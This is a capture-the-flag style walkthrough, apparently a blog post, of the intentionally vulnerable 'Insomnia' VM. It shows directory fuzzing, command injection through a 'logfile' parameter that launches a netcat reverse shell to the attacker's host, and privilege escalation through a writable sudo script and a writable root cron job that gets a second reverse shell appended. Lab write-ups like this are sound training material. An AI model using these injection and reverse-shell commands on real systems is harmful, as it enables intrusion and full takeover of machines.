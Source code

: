 ```yaml
---
layout: post
title:  "Insomnia - Walkthrough"
date:   2021-01-11 10:10:05 +0300
categories: [vulnhub,hackmyvm,walkthrough,myvms]
pin: false
tags: [RCE,cron,sudo]
image: /images/insomnia.jpg
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/insomnia-1,644/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Insomnia`

- Difficulty : easy

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/aSEaIK8kWD8" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  dirb http://10.0.2.114:8080/ -X .php,.txt

  + http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
  + http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
  + http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
  + http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
{% endhighlight %}

## Find GET parameter

{% highlight sh %}
  wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'                                                               
  =====================================================================
  ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
  =====================================================================

  000000485:   200        2 L      12 W       69 Ch       "logfile"    
{% endhighlight %}

## Reverse shell

```
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```

- My machine

{% highlight sh %}
  nc -lvp 4444
  www-data@insomnia:~$ cd /home/julia
  www-data@insomnia:~$ cat user.txt
{% endhighlight %}

## Priv Esc to Julia

{% highlight sh %}
  www-data@insomnia:~/julia$ sudo -l
  (julia) NOPASSWD: /bin/bash /var/www/html/start.sh

  www-data@insomnia:~$ cd /var/www/html

  www-data@insomnia:/var/www/html$ ls -la | grep start.sh
  -rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080
{% endhighlight %}

#### Edit start.sh

{% highlight sh %}
  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080

  www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

  www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

  julia@insomnia:/var/www/html$ id
  id
  uid=1000(julia) gid=1000(julia) groups=1000(julia)
{% endhighlight %}

## cat /etc/crontab

{% highlight sh %}
  julia@insomnia:~$ cat /etc/crontab
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  # |  |  |  |  |
  # *  *  *  *  * user-name command to be executed
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  *  *    * * *   root    /bin/bash /var/cron/check.sh

  julia@insomnia:~$ cd /var/cron
  cd /var/cron
  julia@insomnia:/var/cron$ ls -la | grep check.sh
  ls -la | grep check.sh
  -rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
{% endhighlight %}

## Target machine

- check.sh is writable, edit `check.sh`

{% highlight sh %}
  julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
{% endhighlight %}

## My machine, wait a little bit

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 5555
  listening on [any] 5555 ...
  connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
  id
  uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

- This vm created by me, i enjoyed the process
